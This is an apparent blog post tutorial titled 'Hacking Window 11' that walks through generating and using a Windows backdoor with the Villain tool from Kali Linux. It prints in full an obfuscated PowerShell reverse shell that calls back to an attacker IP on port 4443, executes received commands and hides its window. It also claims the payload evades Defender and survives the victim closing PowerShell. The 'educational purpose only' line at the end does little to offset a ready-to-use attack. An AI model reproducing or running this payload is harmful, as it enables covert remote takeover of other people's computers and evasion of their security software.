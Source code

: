 ```yaml
---
title: Hacking Window 11
author: Radeel Ahmad
pubDatetime: 2022-07-05T02:05:51Z
featured: false
draft: false
tags:
  - hacking
  - window hacking
  - window 11
description: "Hacking Window 11 Using PowerShell Script"
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Windows 11 (victim machine)
- Villain (In Kali Machine)

## Let’s Start…..
Open Kali machine and open Firefox, then download the **Villain**.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/1.jpg" alt="Wifi hacking">

Now, open Villain after downloading.


Install the requirement for the tool using the following command.
```bash
pip3 install -r requirements.txt
```
After the installation, we start the villain.


command: **python3 Villain.py**

## Important

The villain is a Windows and Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, which is handy for working as a team.

Villain has a built-in auto-obfuscate payload function to assist users bypassing AV solutions (for Windows payloads). As a result, payloads are undetected (for the time being).

## Victim side

We run the script in the Powers Shell of the victim’s system (Window 11 Pro)

```bash
Start-Process $PSHOME\powershell.exe -ArgumentList {$client = N''e""w-O'b'je"c"t System.Net.Sockets.TCPClient('YOUR IP',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''e'w'-O''b""je'c't -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i''e""x $data 2>&1 | O""u''t-S''t""ring );$sendback2 = $sendback + 'PS ' + (p""w''d).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden
```


In this script enter the IP of your kali machine by using `ifconfig` command you see the IP of kali machine.

Fully updated. Windows 11. Everything is turned on for Defender protection and the firewall. Please check the screenshots below for confirmation.



## In Kali Linux

After you enter the script, press Enter, and BOOM 🤯! Just kidding, nothing significant will happen on the victim’s machine. However, you will observe a session opening on your terminal.


Here we can see `Session ID` — `IP Address` — `OS Type` — `User` — `Status`.

Using the `shell + session ID` command allows you to gain control over the victim’s computer andexecute various commands.


We use `systeminfo` command to see the detail of victim’s machine.


WE SUCCESSFULLY EXPLOIT VULNERABILITIES WITHIN THE WINDOWS 11 PRO OPERATING SYSTEM TO GAIN UNAUTHORIZED ACCESS 😈.

## Essential Things You Must Know ⚠

- If the victim closes the PowerShell, it won’t stop the reverse shell.
- The PowerShell command remains hidden and isn’t detected by Defender and other advanced antivirus programs.

---

Thank You for reading this article. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
